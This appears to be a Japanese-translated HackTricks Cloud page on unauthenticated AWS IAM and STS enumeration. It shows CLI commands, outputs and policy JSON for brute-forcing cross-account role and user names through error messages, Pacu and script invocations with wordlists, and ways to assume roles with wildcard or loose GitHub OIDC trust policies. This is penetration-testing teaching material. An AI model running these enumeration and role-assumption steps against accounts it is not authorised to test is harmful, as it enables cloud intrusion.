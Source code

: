 # AWS - IAM & STS Unauthenticated Enum

{% hint style="success" %}
AWSハッキングの学習と練習:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCPハッキングの学習と練習: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksのサポート</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェック！
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加**または[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォロー**してください。
* **HackTricks**と**HackTricks Cloud**のgithubリポジトリにPRを提出することで、ハッキングテクニックを共有してください。

</details>
{% endhint %}

## アカウント内のロールとユーザー名を列挙する

### ~~ロールのブルートフォース~~

{% hint style="danger" %}
**このテクニックはもはや機能しません**。ロールが存在しているかどうかに関わらず、常にこのエラーが返されます:

`An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::947247140022:user/testenv is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::429217632764:role/account-balanceasdas`

以下のコマンドを実行して**テストできます**:

`aws sts assume-role --role-arn arn:aws:iam::412345678909:role/superadmin --role-session-name s3-access-example`
{% endhint %}

**必要な権限なしでロールを仮定しようとする**と、AWSはエラーメッセージを返します。たとえば、権限がない場合、AWSは次のように返すかもしれません:
```ruby
An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::012345678901:user/MyUser is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::111111111111:role/aws-service-role/rds.amazonaws.com/AWSServiceRoleForRDS
```
このメッセージは、ロールの存在を確認しますが、そのアサムロールポリシーがあなたの仮定を許可していません。一方、**存在しないロールを仮定しようとすると、異なるエラーが発生**します：
```less
An error occurred (AccessDenied) when calling the AssumeRole operation: Not authorized to perform sts:AssumeRole
```
興味深いことに、**既存の役割と存在しない役割との区別**をするこの方法は、異なるAWSアカウント間でも適用可能です。有効なAWSアカウントIDとターゲットワードリストを使用すると、特定の制限に直面せずにアカウント内の役割を列挙できます。

この[スクリプトを使用して潜在的なプリンシパルを列挙](https://github.com/RhinoSecurityLabs/Security-Research/tree/master/tools/aws-pentest-tools/assume\_role\_enum)することで、この問題を悪用できます。

### 信頼ポリシー: クロスアカウントの役割とユーザーを総当たり攻撃

**IAMロールの信頼ポリシーを構成または更新するには、そのロールを引き受けることが許可されるAWSリソースやサービスを定義**する必要があります。ポリシー内の指定されたリソースが**存在する**場合、信頼ポリシーは**正常に保存**されます。ただし、リソースが**存在しない**場合、無効なプリンシパルが指定されたことを示す**エラーが生成**されます。

{% hint style="warning" %}
そのリソースには、クロスアカウントの役割またはユーザーを指定できます:

* `arn:aws:iam::acc_id:role/role_name`
* `arn:aws:iam::acc_id:user/user_name`
{% endhint %}

これはポリシーの例です:
```json
{
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Principal":
{
"AWS":"arn:aws:iam::216825089941:role\/Test"
},
"Action":"sts:AssumeRole"
}
]
}
```
#### GUI

それは、**存在しないロール**を使用すると見つかる**エラー**です。 ロールが**存在**する場合、ポリシーは**エラーなく保存**されます。（エラーは更新時に発生しますが、作成時にも機能します）

![](<../../../.gitbook/assets/image (68).png>)

#### CLI
```bash
### You could also use: aws iam update-assume-role-policy
# When it works
aws iam create-role --role-name Test-Role --assume-role-policy-document file://a.json
{
"Role": {
"Path": "/",
"RoleName": "Test-Role",
"RoleId": "AROA5ZDCUJS3DVEIYOB73",
"Arn": "arn:aws:iam::947247140022:role/Test-Role",
"CreateDate": "2022-05-03T20:50:04Z",
"AssumeRolePolicyDocument": {
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::316584767888:role/account-balance"
},
"Action": [
"sts:AssumeRole"
]
}
]
}
}
}

# When it doesn't work
aws iam create-role --role-name Test-Role2 --assume-role-policy-document file://a.json
An error occurred (MalformedPolicyDocument) when calling the CreateRole operation: Invalid principal in policy: "AWS":"arn:aws:iam::316584767888:role/account-balanceefd23f2"
```
自動化することができます。[https://github.com/carlospolop/aws\_tools](https://github.com/carlospolop/aws\_tools)

* `bash unauth_iam.sh -t user -i 316584767888 -r TestRole -w ./unauth_wordlist.txt`

[Pacu](https://github.com/RhinoSecurityLabs/pacu)を使用する場合:

* `run iam__enum_users --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* `run iam__enum_roles --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* 例で使用されている`admin`ロールは、**列挙のために必要なポリシーを作成するためにpacuによって偽装されるアカウント内のロール**です

### Privesc

ロールが誤って構成され、誰でもそれを仮定できるように許可されている場合:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": "sts:AssumeRole"
}
]
}
```
## サードパーティOIDCフェデレーション

攻撃者はそれを単に想定することができます。

**Github Actions workflow** を読むことに成功し、**AWS** 内の **role** にアクセスしているとします。\
この信頼は、次の **trust policy** を持つロールへのアクセス権を与えるかもしれません：
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"Federated": "arn:aws:iam::<acc_id>:oidc-provider/token.actions.githubusercontent.com"
},
"Action": "sts:AssumeRoleWithWebIdentity",
"Condition": {
"StringEquals": {
"token.actions.githubusercontent.com:aud": "sts.amazonaws.com"
}
}
}
]
}
```
この信頼ポリシーは正しいかもしれませんが、**さらなる条件の不足**は des 信すべきではありません。\
これは以前のロールが**Github Actionsの誰でも**によって想定される可能性があるためです！組織名、リポジトリ名、環境、ブランチなど、条件にも他の要素を明記すべきです...

もう1つの潜在的な誤構成は、次のような条件を**追加する**ことです：
```json
"StringLike": {
"token.actions.githubusercontent.com:sub": "repo:org_name*:*"
}
```
注意してください **ワイルドカード** (\*) の前に **コロン** (:). あなたは **org\_name1** のような組織を作成し、Github Action から **役割を仮定** することができます。

## 参考文献

* [https://www.youtube.com/watch?v=8ZXRw4Ry3mQ](https://www.youtube.com/watch?v=8ZXRw4Ry3mQ)
* [https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/](https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/)

{% hint style="success" %}
AWS ハッキングの学習と実践:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP ハッキングの学習と実践: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks のサポート</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop) をチェックしてください！
* 💬 [**Discord グループ**](https://discord.gg/hRep4RUj7f) に **参加** または [**telegram グループ**](https://t.me/peass) に **フォロー** し、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** をフォローしてください。**
* [**HackTricks**](https://github.com/carlospolop/hacktricks) と [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) の github リポジトリに PR を提出して **ハッキングトリックを共有** してください。

</details>
{% endhint %}
